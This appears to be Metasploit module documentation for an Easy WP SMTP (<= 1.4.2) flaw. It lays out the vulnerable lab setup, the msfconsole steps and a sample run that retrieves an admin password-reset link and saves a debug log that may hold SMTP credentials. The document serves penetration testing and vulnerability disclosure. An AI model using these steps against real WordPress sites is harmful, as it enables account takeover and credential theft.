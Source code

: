 ## Vulnerable Application

Wordpress plugin Easy WP SMTP versions <= 1.4.2 was found to not include index.html within its plugin folder.
This potentially allows for directory listings.  If debug mode is also enabled for the plugin, all SMTP
commands are stored in a debug file.
Combining these items, it's possible to request a password reset for an account, then view the debug file to determine
the link that was emailed out, and reset the user's password.

This module will list ALL reset links, most likely the last one is the one that will work, however there
may be value in the others as well (such as other users).  The debug log saved in loot may also contain
the SMTP username and password.

To summarize:

1. Vulnerable version of Easy WP SMTP
1. debug turned on for Easy WP SMTP
1. SMTP configured for Easy WP SMTP
1. direcotry listings enabled

### Install

1. Install wordpress
1. Download and install [Easy WP SMTP](https://wordpress.org/plugins/easy-wp-smtp/advanced/) <= 1.4.2
1. Browse to Settings > Easy WP SMTP
    1. Configure the plugin (SMTP Host, SMTP Port, UN/PASS)
    1. Additional Settings > Enable Debug Log (Check this value, click Save Changes)

## Verification Steps

1. Install Wordpress, Easy WP SMTP, and configure it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_easy_wp_smtp`
1. Do: `set rhost [ip]`
1. Do: `set USER [username]`
1. Do: `run`
1. You should get the link to reset the user's password

## Options

### User

The username to reset the password of

## Scenarios

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04

```
esource (wp_easy_wp_smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (wp_easy_wp_smtp.rb)> set verbose true
verbose => true
resource (wp_easy_wp_smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (wp_easy_wp_smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version detected
[+] Found debug log: /wp-content/plugins/easy-wp-smtp/5fcfd49e879f9_debug_log.txt
[*] Sending password reset for Admin
[+] Debug log saved to /home/h00die/.msf4/loot/20201208204705_default_1.1.1.1_5fcfd49e879f9_de_209239.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=IdlSwWkIuy0f7k79OU2p&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
```
